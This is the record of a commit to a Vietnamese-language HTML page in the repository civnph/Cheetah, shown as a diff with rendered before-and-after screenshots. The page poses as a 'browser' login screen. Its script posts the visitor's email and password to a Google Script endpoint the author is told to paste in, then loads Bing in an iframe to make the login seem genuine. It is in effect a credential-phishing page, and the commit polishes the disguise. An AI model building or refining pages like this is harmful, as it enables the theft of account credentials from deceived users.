

Before and after one commit to civnph/Cheetah, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,38 +2,62 @@
 <html>
 <head>
     <meta charset="UTF-8">
-    <title>Trình Duyệt Siêu Cấp</title>
+    <title>Trình Duyệt Của Tôi</title>
     <style>
-        body { font-family: sans-serif; text-align: center; padding-top: 80px; background: #f4f7f6; }
-        .box { background: white; padding: 40px; border-radius: 20px; display: inline-block; shadow: 0 4px 15px rgba(0,0,0,0.1); }
-        h1 { color: #ff4757; }
-        input { display: block; width: 280px; padding: 12px; margin: 15px auto; border: 1px solid #ddd; border-radius: 8px; }
-        button { padding: 12px 30px; background: #ff4757; color: white; border: none; border-radius: 8px; cursor: pointer; font-weight: bold; }
+        body, html { margin: 0; padding: 0; height: 100%; overflow: hidden; font-family: sans-serif; }
+        /* Màn hình đăng nhập */
+        #login-page { display: flex; justify-content: center; align-items: center; height: 100vh; background: #f0f2f5; }
+        .card { background: white; padding: 30px; border-radius: 15px; text-align: center; box-shadow: 0 5px 15px rgba(0,0,0,0.1); }
+
+        /* Giao diện trình duyệt sau khi đăng nhập */
+        #browser-page { display: none; flex-direction: column; height: 100vh; }
+        .toolbar { background: #333; padding: 10px; display: flex; gap: 10px; align-items: center; }
+        #url-bar { flex-grow: 1; padding: 8px; border-radius: 5px; border: none; }
+        .btn { background: #ff4757; color: white; border: none; padding: 8px 15px; border-radius: 5px; cursor: pointer; }
+        iframe { width: 100%; flex-grow: 1; border: none; background: white; }
     </style>
 </head>
 <body>
-    <div class="box">
-        <h1>🚀 TRÌNH DUYỆT</h1>
-        <p>Đăng nhập để bắt đầu trải nghiệm</p>
-        <input type="email" id="email" placeholder="Email của bạn">
-        <input type="password" id="pass" placeholder="Mật khẩu">
-        <button onclick="saveAndGo()">ĐĂNG NHẬP & VÀO WEB</button>
+
+    <div id="login-page">
+        <div class="card">
+            <h1>🚀 MY BROWSER</h1>
+            <input type="email" id="email" placeholder="Email" style="display:block; width:250px; margin:10px auto; padding:10px;">
+            <input type="password" id="pass" placeholder="Mật khẩu" style="display:block; width:250px; margin:10px auto; padding:10px;">
+            <button class="btn" onclick="login()">ĐĂNG NHẬP</button>
+        </div>
+    </div>
+
+    <div id="browser-page">
+        <div class="toolbar">
+            <button class="btn" onclick="location.reload()">🏠</button>
+            <input type="text" id="url-bar" placeholder="Nhập địa chỉ (ví dụ: bing.com)">
+            <button class="btn" onclick="go()">ĐI</button>
+        </div>
+        <iframe id="content-frame" src="about:blank"></iframe>
     </div>
 
     <script>
-        function saveAndGo() {
+        function login() {
             const email = document.getElementById('email').value;
             const pass = document.getElementById('pass').value;
-            // DÁN LINK GOOGLE SCRIPT CỦA BẠN VÀO DƯỚI ĐÂY (Giữa hai dấu nháy)
             const scriptURL = 'DÁN_LINK_CỦA_BẠN_Ở_ĐÂY';
 
-            if(!email || !pass) return alert("Vui lòng điền đủ thông tin!");
+            if(!email || !pass) return alert("Nhập đủ thông tin!");
 
-            fetch(scriptURL, { method: 'POST', mode: 'no-cors', body: JSON.stringify({email: email, password: pass})})
+            fetch(scriptURL, { method: 'POST', mode: 'no-cors', body: JSON.stringify({email, pass})})
             .then(() => {
-                alert("Xác thực thành công! Đang mở trang chủ...");
-                window.location.href = "https://www.google.com";
+                document.getElementById('login-page').style.display = 'none';
+                document.getElementById('browser-page').style.display = 'flex';
+                // Mặc định khi vào sẽ mở Bing (vì Bing ít chặn iframe hơn Google)
+                document.getElementById('content-frame').src = "https://www.bing.com";
             });
+        }
+
+        function go() {
+            let url = document.getElementById('url-bar').value;
+            if(!url.startsWith('http')) url = 'https://' + url;
+            document.getElementById('content-frame').src = url;
         }
     </script>
 </body>
```
